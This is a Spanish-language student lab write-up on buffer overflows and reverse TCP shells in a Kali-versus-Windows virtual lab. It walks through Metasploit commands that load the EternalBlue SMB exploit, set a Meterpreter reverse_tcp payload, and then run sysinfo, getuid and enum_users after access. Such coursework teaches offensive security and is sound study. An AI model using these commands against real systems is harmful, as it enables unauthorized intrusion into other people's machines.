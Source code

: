 ```yaml
---
title: Tarea Buffer Overflow
date: 2024-11-04 00:00:00 -05:00
categories: [buffer overflow, jmp, stack pointer]
tags: [rhosts, sam, system]  # TAG names should always be lowercase
---
```

# Tarea.

Requerimientos
El objetivo principal de esta tarea consiste en revisar si cada una de esas direcciones restantes es vulnerable y permite realizar el buffer overflow que, por consecuencia, permita ejecutar el exploit y obtener una shell por conexión tcp reversa.

Como segundo objetivo, el alumno debe de explicar en su procedimiento ¿qué es una conexión tcp reversa? Utilizar un gráfico relacionado a su setup de laboratorio (VM Kali vs VM Windows, VM Kali vs Host Windows) y desarrollar la explicación correspondiente.

Una vez que obtiene la conexión tcp reversa (suficiente con utilizar una de las direcciones de retorno que permite una exitosa ejecución del exploit), investigar los permisos de la shell (es decir, del usuario que ejecuta aquella shell).

#### Desarrollo

### Conexion tcp reversa
Una conexión TCP reversa es una técnica utilizada en penetration testing y ciberseguridad para establecer una conexión de red desde una máquina objetivo (victima) hacia una máquina atacante (controladora). En este contexto, la máquina atacante escucha en un puerto específico por una conexión entrante, y la máquina objetivo inicia la conexión hacia ese puerto.

````bash
use exploit/windows/smb/ms17_010_eternalblue
````
![13ms17_010_eternalblue](/assets/images/13ms17_010_eternalblue.JPG)


````bash
set payload windows/meterpreter/reverse_tcp
````
![14reverse_tcp](/assets/images/14reverse_tcp.JPG)

Se configura la dirección IP y el puerto de la máquina atacante:

![15set_lhost](/assets/images/15set_lhost.JPG)

Una vez que el exploit se ejecuta con éxito, la máquina objetivo intentará conectarse a la máquina atacante en el puerto especificado (4444 en este caso). La máquina atacante escuchará por esta conexión y, si todo está configurado correctamente, se abrirá una sesión de Meterpreter.

Una vez que obtiene la conexión tcp reversa (suficiente con utilizar una de las direcciones de retorno que permite una exitosa ejecución del exploit), investigar los permisos de la shell (es decir, del usuario que ejecuta aquella shell).

Se puede obtener Información del Sistema:
El comando sysinfo para obtener una visión general del sistema:

![16exploit](/assets/images/16exploit.JPG)

````bash
meterpreter > sysinfo
````

Usamos el comando getuid para obtener el ID del usuario actual:

````bash
meterpreter > getuid
````

Usamos el comando enum_users para listar todos los usuarios del sistema:
````bash
meterpreter > enum_users
````